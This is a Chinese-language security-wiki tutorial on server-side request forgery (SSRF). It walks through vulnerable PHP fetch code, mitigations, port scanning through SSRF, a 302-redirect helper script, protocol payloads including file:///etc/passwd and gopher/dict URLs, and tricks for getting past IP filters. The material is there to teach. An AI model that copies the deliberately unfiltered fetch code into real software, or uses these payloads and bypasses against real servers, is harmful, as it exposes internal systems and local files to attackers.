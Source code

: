 ## SSRF 简介[¶](https://wiki.x10sec.org/web/ssrf-zh/#ssrf)

SSRF，Server-Side Request Forgery，服务端请求伪造，是一种由攻击者构造形成由服务器端发起请求的一个漏洞。一般情况下，SSRF 攻击的目标是从外网无法访问的内部系统。

漏洞形成的原因大多是因为服务端提供了从其他服务器应用获取数据的功能且没有对目标地址作过滤和限制。

攻击者可以利用 SSRF 实现的攻击主要有 5 种：

1. 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的 banner 信息
2. 攻击运行在内网或本地的应用程序（比如溢出）
3. 对内网 WEB 应用进行指纹识别，通过访问默认文件实现
4. 攻击内外网的 web 应用，主要是使用 GET 参数就可以实现的攻击（比如 Struts2，sqli 等）
5. 利用`file`协议读取本地文件等
## SSRF 漏洞出现的场景[¶](https://wiki.x10sec.org/web/ssrf-zh/#ssrf_1)

* 能够对外发起网络请求的地方，就可能存在 SSRF 漏洞
* 从远程服务器请求资源（Upload from URL，Import & Export RSS Feed）
* 数据库内置功能（Oracle、MongoDB、MSSQL、Postgres、CouchDB）
* Webmail 收取其他邮箱邮件（POP3、IMAP、SMTP）
* 文件处理、编码处理、属性信息处理（ffmpeg、ImageMagic、DOCX、PDF、XML）
## 常用的后端实现[¶](https://wiki.x10sec.org/web/ssrf-zh/#_1)

`file_get_contents`

```plain
<?php
if (isset($_POST['url'])) { 
    $content = file_get_contents($_POST['url']); 
    $filename ='./images/'.rand().';img1.jpg'; 
    file_put_contents($filename, $content); 
    echo $_POST['url']; 
    $img = "<img src=\"".$filename."\"/>"; 
}
echo $img;
?>
```
1. 这段代码使用`file_get_contents`函数从用户指定的 URL 获取图片。然后把它用一个随机文件名保存在硬盘上，并展示给用户。

`fsockopen()`

```plain
<?php 
function GetFile($host,$port,$link) { 
    $fp = fsockopen($host, intval($port), $errno, $errstr, 30); 
    if (!$fp) { 
        echo "$errstr (error number $errno) \n"; 
    } else { 
        $out = "GET $link HTTP/1.1\r\n"; 
        $out .= "Host: $host\r\n"; 
        $out .= "Connection: Close\r\n\r\n"; 
        $out .= "\r\n"; 
        fwrite($fp, $out); 
        $contents=''; 
        while (!feof($fp)) { 
            $contents.= fgets($fp, 1024); 
        } 
        fclose($fp); 
        return $contents; 
    } 
}
?>
```
1. 这段代码使用`fsockopen`函数实现获取用户制定 URL 的数据（文件或者 HTML）。这个函数会使用 socket 跟服务器建立 TCP 连接，传输原始数据。

`curl_exec()`

```plain
<?php 
if (isset($_POST['url'])) {
    $link = $_POST['url'];
    $curlobj = curl_init();
    curl_setopt($curlobj, CURLOPT_POST, 0);
    curl_setopt($curlobj,CURLOPT_URL,$link);
    curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1);
    $result=curl_exec($curlobj);
    curl_close($curlobj);
    $filename = './curled/'.rand().'.txt';
    file_put_contents($filename, $result); 
    echo $result;
}
?>
```
1. 使用`curl`获取数据。
## 阻碍 SSRF 漏洞利用的场景[¶](https://wiki.x10sec.org/web/ssrf-zh/#ssrf_2)

* 服务器开启 OpenSSL 无法进行交互利用
* 服务端需要鉴权（Cookies & User：Pass）不能完美利用
* 限制请求的端口为 http 常用的端口，比如，80,443,8080,8090。
* 禁用不需要的协议。仅仅允许 http 和 https 请求。可以防止类似于[file:///,gopher://,ftp://](file:///,gopher://,ftp://)等引起的问题。
* 统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。
## 利用 SSRF 进行端口扫描[¶](https://wiki.x10sec.org/web/ssrf-zh/#ssrf_3)

根据服务器的返回信息进行判断，大部分应用不会判别端口，可通过返回的 banner 信息判断端口状态。

后端实现

```plain
<?php 
if (isset($_POST['url'])) {
    $link = $_POST['url'];
    $filename = './curled/'.rand().'txt';
    $curlobj = curl_init($link);
    $fp = fopen($filename,"w");
    curl_setopt($curlobj, CURLOPT_FILE, $fp);
    curl_setopt($curlobj, CURLOPT_HEADER, 0);
    curl_exec($curlobj);
    curl_close($curlobj);
    fclose($fp);
    $fp = fopen($filename,"r");
    $result = fread($fp, filesize($filename)); 
    fclose($fp);
    echo $result;
}
?>
```
构造一个前端页面
```plain
<html>
<body>
  <form name="px" method="post" action="http://127.0.0.1/ss.php">
    <input type="text" name="url" value="">
    <input type="submit" name="commit" value="submit">
  </form>
  <script></script>
</body>
</html>
```
请求非 HTTP 的端口可以返回 banner 信息。
或可利用 302 跳转绕过 HTTP 协议的限制。

辅助脚本

```plain
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$scheme = $_GET['s'];
$data = $_GET['data'];
header("Location: $scheme://$ip:$port/$data");
?>
```
[腾讯某处 SSRF 漏洞（非常好的利用点）附利用脚本](https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html)
## 协议利用[¶](https://wiki.x10sec.org/web/ssrf-zh/#_2)

Dict 协议

```plain
dict://fuzz.wuyun.org:8080/helo:dict
```
Gopher 协议
```plain
gopher://fuzz.wuyun.org:8080/gopher
```
File 协议
```plain
file:///etc/passwd
```
## 绕过姿势[¶](https://wiki.x10sec.org/web/ssrf-zh/#_3)

1. 更改 IP 地址写法 例如`192.168.0.1`
    1. 8 进制格式：`0300.0250.0.1`
    2. 16 进制格式：`0xC0.0xA8.0.1`
    3. 10 进制整数格式：`3232235521`
    4. 16 进制整数格式：`0xC0A80001`
    5. 还有一种特殊的省略模式，例如`10.0.0.1`这个 IP 可以写成`10.1`
2. 利用 URL 解析问题 在某些情况下，后端程序可能会对访问的 URL 进行解析，对解析出来的 host 地址进行过滤。这时候可能会出现对 URL 参数解析不当，导致可以绕过过滤。 例如：
    1. `http://www.baidu.com@192.168.0.1/`与`http://192.168.0.1`请求的都是`192.168.0.1`的内容
    2. 可以指向任意 ip 的域名`xip.io`：`http://127.0.0.1.xip.io/`==>`http://127.0.0.1/`
    3. 短地址`http://dwz.cn/11SMa`==>`http://127.0.0.1`
    4. 利用句号`。`：`127。0。0。1`==>`127.0.0.1`

利用 Enclosed alphanumerics

```plain
ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ  >>>  example.com
List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ 
⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

## 危害[¶](https://wiki.x10sec.org/web/ssrf-zh/#_4)

* 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的 banner 信息;
* 攻击运行在内网或本地的应用程序（比如溢出）;
* 对内网 web 应用进行指纹识别，通过访问默认文件实现;
* 攻击内外网的 web 应用，主要是使用 get 参数就可以实现的攻击（比如 struts2，sqli 等）;
* 利用 file 协议读取本地文件等。
## 参考资料[¶](https://wiki.x10sec.org/web/ssrf-zh/#_5)

* [《Build Your SSRF EXP Autowork》猪猪侠](http://tools.40huo.cn/#!papers.md)
* [腾讯某处 SSRF 漏洞（非常好的利用点）附利用脚本](https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html)
* [bilibili 某分站从信息泄露到 ssrf 再到命令执行](https://_thorns.gitbooks.io/sec/content/bilibilimou_fen_zhan_cong_xin_xi_xie_lu_dao_ssrf_z.html)



